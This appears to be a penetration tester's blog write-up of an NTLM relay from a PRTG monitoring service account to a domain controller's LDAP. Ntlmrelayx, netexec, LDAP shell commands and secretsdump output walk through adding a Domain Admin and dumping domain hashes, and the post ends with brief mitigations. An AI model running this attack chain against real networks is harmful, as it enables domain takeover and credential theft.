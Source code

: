 ```yaml
---
title: PWNING a DC via Paessler's monitoring system
date: 01/12/2024
tags: [real-life, DC, LDAP]
---
```


<h1> Paessler Monitoring system? </h1>
During a recent engagement, while trying to perform SMB relaying on a potentially vulnerable target, I noticed some hits on my <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py">ntlmrelayx </a> instance that I did not initiate 🤔

```console
[kali@kali]$ impacket-ntlmrelayx -t 10.10.0.66 -smb2support 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[*] Protocol Client LDAP loaded.. 
[*] Protocol Client LDAPS loaded.. 
[*] Protocol Client SMB loaded.. 
[*] Protocol Client RPC loaded.. 
[*] Protocol Client HTTPS loaded.. 
[*] Protocol Client HTTP loaded.. 
[*] Protocol Client MSSQL loaded.. 
[*] Protocol Client DCSYNC loaded.. 
[*] Protocol Client IMAP loaded.. 
[*] Protocol Client IMAPS loaded.. 
[*] Protocol Client SMTP loaded.. 
[*] Running in relay mode to single host 
[*] Setting up SMB Server on port 445 
[*] Setting up HTTP Server on port 80 
[*] Setting up WCF Server on port 9389 
[*] Setting up RAW Server on port 6666 
[*] Multirelay disabled 
 
[*] Servers started, waiting for connections 
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.0.50, attacking target smb://10.10.0.66 
[*] Authenticating against smb://10.10.0.66 as REDACTED/DEV-DC31$ SUCCEED 
[*] All targets processed!
```
<br>
This could be an indication that there is an automated task that makes machines automatically authenticate to my services on the network. 

To make things easier for me, I decided to check if the DC supports LDAP signing in order to relay this authentication to it and get an LDAP shell, from where we can perform <i>evil stuff</i>. 😈
To do so, we unfortunately need to have a domain account set up. 

<b>This step is not necessary if you don't have creds, but will save you time.</b>

Going to the terminal, I ran <a href="https://www.netexec.wiki/" >Netexec </a> against the DC with the module <b> ldap-checker </b> and saw that LDAP signing was not enforced:

```console
[kali@kali]$ netexec ldap 10.10.0.50 -u pentester -p Y3llow3Fl0wer -M ldap-checker

SMB         10.10.0.50      445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
LDAP        10.10.0.50      389    DEV-DC31         [+] REDACTED\pentester:Y3llow3Fl0wer                                              
LDAP-CHE... 10.10.0.50      389    DEV-DC31         LDAP Signing NOT Enforced!                                                                   
LDAP-CHE... 10.10.0.50      389    DEV-DC31         LDAPS Channel Binding is set to "When Supported" 
```
<br>
The next thing to immediately do was to setup ntlmrelayx to relay directly to the DC's LDAP.

```console
[kali@kali]$ impacket-ntlmrelayx -t 10.10.0.50 -smb2support -i
```
<br>
We have speficied the DC with the <b>-t</b> option and used the <b>-i</b> option to establish an interactive LDAP shell.

After a minute or two of waiting, REDACTED/SERVICE.PRTG automatically authenticated and we relayed the connection to the DC's LDAP:

```console
[kali@kali]$ impacket-ntlmrelayx -t ldaps://10.10.0.50 --shadow-credentials -i            
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAP loaded..                                              
[*] Protocol Client LDAPS loaded..                                             
[*] Protocol Client SMB loaded..                                               
[*] Protocol Client RPC loaded..                                               
[*] Protocol Client HTTP loaded..                                              
[*] Protocol Client HTTPS loaded..                                             
[*] Protocol Client MSSQL loaded..                                             
[*] Protocol Client DCSYNC loaded..                                            
[*] Protocol Client IMAPS loaded..                                             
[*] Protocol Client IMAP loaded..                                              
[*] Protocol Client SMTP loaded..                                              
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445                                          
[*] Setting up HTTP Server on port 80                                          
[*] Setting up WCF Server on port 9389                                         
[*] Setting up RAW Server on port 6666                                         
[*] Multirelay disabled                                                        

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.0.50, attacking target ldaps://10.10.0.50                                          
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.10.0.50, attacking target ldaps://10.10.0.50                                          
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.10.0.138, attacking target ldaps://10.10.0.50                                         
[*] SMBD-Thread-8 (process_request_thread): Received connection from 10.10.0.138, attacking target ldaps://10.10.0.50                                         
[*] Authenticating against ldaps://10.10.0.50 as REDACTED/SERVICE.PRTG SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000 as REDACTED/SERVICE.PRTG
```
<br>
We can see that we have successfully relayed the connection to the DC and have established an interactive LDAP shell locally on port 11000 which we can access via netcat.

Before we do so, why was this attack was possible? 🤔 Even if LDAP signing is disabled, why did <b>SERVICE.PRTG</b> automatically authenticate to our server?

After some digging, we see that SERVICE.PRTG is a monitoring tool by <a href="https://www.paessler.com/">Paessler</a> which <b>"connects to the server by trying a bind"</b>.
<br>

<img src="/assets/img/pwn-me.jpg">

<br>
<h1> Easy takeover incoming </h1>
We will connect to the interactive shell with netcat:
```console
[kali@kali]$ nc 127.0.0.1 11000
```
<br>
Inside of the shell, we confirm we are the user <b>SERVICE.PRTG</b> and we proceed to adding a new user to the Domain Administrators group:

```console
# whoami                                                                       
u:REDACTED\service.prtg

# add_user Pentest-User
Attempting to create user in: %s CN=Users,DC=REDACTED,DC=REDACTED
Adding new user with username: Pentest-User and password: c,n3nF["dH[h=&P result: OK

# search Pentest-User
CN=Pentest-User,CN=Users,DC=REDACTED,DC=REDACTED
name: Pentest-User
distinguishedName: CN=Pentest-User,CN=Users,DC=REDACTED,DC=REDACTED
sAMAccountName: Pentest-User
objectSid: S-1-5-21-854245398-1004336348-1801673123-2222

# enable_account Pentest-User
Original userAccountControl: 512
Updated userAccountControl attribute successfully                            

# add_user_to_group Pentest-User "Domain Admins"
Adding user: Pentest-User to group Domain Admins result: OK
```
<br>
The user show now be a Domain Admin, lets quickly confirm that with netexec:
```console
[kali@kali]$ netexec smb DC.txt -u Pentest-User -p 'c,n3nF["dH[h=&P'
SMB         200.200.205.15  445    DEV-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC01) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.108     445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.50      445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.116     445    DEV-PDC03        [*] Windows Server 2022 Build 20348 x64 (name:DEV-PDC03) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         200.200.205.15  445    DEV-DC01         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.108     445    DEV-DC31         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.50      445    DEV-DC31         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.116     445    DEV-PDC03        [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
```
<br>
And just like that we managed to PWN multiple networks! As the grand finale lets dump all the hashes with Impacket's Secretsdump:

```console
[kali@kali]$ impacket-secretsdump REDACTED/Pentest-User:'c,n3nF["dH[h=&P'@10.10.0.50
Impacketv0.12.0-CopyrightFortra,LLCanditsaffiliatedcompanies

[*]ServiceRemoteRegistryisinstoppedstate
[*]StartingserviceRemoteRegistry
[*]TargetsystembootKey:REDACTED
[-]SAMhashesextractionfailed:SMBSessionError:code:0xc00000b1-STATUS_PIPE_CLOSING-Thespecifiednamedpipeisintheclosingstate.
[-]LSAhashesextractionfailed:SMBSessionError:code:0xc00000b1-STATUS_PIPE_CLOSING-Thespecifiednamedpipeisintheclosingstate.
[*]DumpingDomainCredentials(domain\uid:rid:lmhash:nthash)
[*]UsingtheDRSUAPImethodtogetNTDS.DITsecrets

REDACTED\administrator:500:REDACTED:REDACTED:::
Guest:501:REDACTED:REDACTED:::
krbtgt:502:REDACTED:REDACTED:::
REDACTED\InternetUser:1000:REDACTED:REDACTED:::
REDACTED\n.mullen:2120:REDACTED:REDACTED:::
REDACTED\b.brennan:2137:REDACTED:REDACTED:::
REDACTED\info:2145:REDACTED:REDACTED:::
REDACTED\o.jackson:2147:REDACTED:REDACTED:::
REDACTED\a.mcguire:2157:REDACTED:REDACTED:::
REDACTED\b.dawson:2162:REDACTED:REDACTED:::
REDACTED\s.bristow:2164:REDACTED:REDACTED:::
REDACTED\s.campbell:2165:REDACTED:REDACTED:::
REDACTED\q.scott:2166:REDACTED:REDACTED:::
REDACTED\i.sheehy:2170:REDACTED:REDACTED:::
REDACTED\k.coffey:2176:REDACTED:REDACTED:::
REDACTED\s.oconnell:2177:REDACTED:REDACTED:::
REDACTED\m.otoole:2181:REDACTED:REDACTED:::
...
```
<br>
<center> <b> Lo and behold, we have demolished a domain without any credentials. </b></center>
<br>

<h1> Conclusions </h1>
- Enable LDAP signing
- Don't let a service automatically authenticate to any LDAP servers on the network

<h1> Resources </h1>
- [I'm Bringing Back Relaying](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
